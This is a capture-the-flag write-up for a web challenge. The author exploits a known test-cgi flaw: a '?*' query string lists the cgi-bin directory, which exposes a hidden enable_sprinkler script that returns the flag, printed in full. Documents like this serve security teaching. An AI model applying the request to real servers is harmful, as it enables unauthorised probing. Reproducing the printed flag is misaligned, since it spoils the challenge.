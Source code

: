 # Sprinkler system - Web

### Problem


Sprinkler system - Web (100 + 0)

Damn new york... some chick tricked you into standing in the rain on the very first day... it's payback time!

Solves: 238

Service: http://sprinklers.alieni.se/

Author: avlidienbrunn

flag: SECT{-p001_On_t3h_r00f_must_h@v3_A_l3ak!-}

When you first look at the web page it says not to turn on the sprinklers, but other than that the page doesn't have anything else of importance on it. 


When a web page doesn't have alot of information the first thing I look at is the robots.txt

http://sprinklers.alieni.se/robots.txt

```
User-agent: *
Disallow: /cgi-bin/test-cgi
```

http://sprinklers.alieni.se/cgi-bin/test-cgi

```
argc is 0. argv is .
SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
PATH_INFO = /
PATH_TRANSLATED = /var/www/html/index.html
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING =
REMOTE_HOST =
REMOTE_ADDR = 141.101.88.193
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH =
```

At first I was confused about what information this was giving me. Then I realized that it is a script that was run on the web server.

Once I figured that out I googled the script /cgi-bin/test-cgi the first link was:

http://insecure.org/sploits/test-cgi.html

The web site shows that there is a vulnerablity in the script 

http://sprinklers.alieni.se/cgi-bin/test-cgi?*

```
CGI/1.0 test script report:
argc is 1. argv is \*.
SERVER_SOFTWARE = Apache/2.4.18 (Ubuntu)
SERVER_NAME = sprinklers.alieni.se
GATEWAY_INTERFACE = CGI/1.1
SERVER_PROTOCOL = HTTP/1.1
SERVER_PORT = 80
REQUEST_METHOD = GET
HTTP_ACCEPT = */*
PATH_INFO = 
PATH_TRANSLATED = 
SCRIPT_NAME = /cgi-bin/test-cgi
QUERY_STRING = enable_sprinkler_system test-cgi
REMOTE_HOST =
REMOTE_ADDR = 172.68.102.79
REMOTE_USER =
AUTH_TYPE =
CONTENT_TYPE =
CONTENT_LENGTH
```

You can see that there is another script in the /cgi-bin/ directory called enable_sprinkler

http://sprinklers.alieni.se/cgi-bin/enable_sprinkler

You get the flag

SECT{-p001_On_t3h_r00f_must_h@v3_A_l3ak!-}
